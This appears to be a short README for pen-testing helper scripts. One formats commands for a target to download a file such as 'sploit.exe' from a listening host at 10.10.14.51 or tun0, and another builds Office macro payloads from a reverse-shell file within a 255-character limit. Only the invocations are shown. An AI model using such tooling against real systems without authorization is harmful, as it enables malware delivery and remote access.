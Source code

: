 # Scripts to help the `Pen-Test` process
## Download file request builder

Simple bash script to quickly format different ways to download a file.

![linux_example](https://i.imgur.com/n7XZ33p.png)

```bash
./download_builder.sh -h
./download_builder.sh
./download_builder.sh -f sploit.exe -lh 10.10.14.51 -o linux
./download_builder.sh -f sploit.exe -lh tun0 -o win -f uwu.exe -lp 80 -s corp_share
```

## Office Macro Template Builder

Simple bash script to quickly format Macro payloads. To help fit the Winodws `255` character limit.

![macro_example](https://i.imgur.com/5aifc95.png)

```bash
./build_macro_template.sh
./build_macro_template.sh -h
./build_macro_template.sh -f revshell.p1
./build_macro_template.sh -p "<payload-string>" -o 2
```
